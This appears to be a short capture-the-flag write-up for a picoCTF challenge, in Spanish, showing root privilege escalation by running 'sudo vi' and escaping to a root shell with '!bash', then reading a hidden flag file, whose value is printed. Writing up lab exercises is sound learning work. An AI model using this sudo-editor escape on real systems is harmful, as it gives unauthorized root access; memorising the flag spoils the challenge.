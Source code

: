 ## DESCRIPTION

Can you read files in the root file?

Additional details will be available after launching your challenge instance.


## SOLUTION

````

-- Primero hacemos un sudo vi, para ejecutar comandos en un editor de texto pero como superusuarios. 
picoplayer@challenge:/$ sudo vi

-- Dentro del editor de texto ejecute el comando !bash, que ejecuta una nuva shell con privilegios de root.
-- Lusgo listo todos los archivos ocultos, un archivo llamado .flag.txt y con un cat revelo lo que tiene este archivo oculto. 


root@challenge:/# cd -> me voy a la raiz
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Feb 23 02:41 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt
picoCTF{uS1ng_v1m_3dit0r_f6ad392b}
root@challenge:~# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.



```



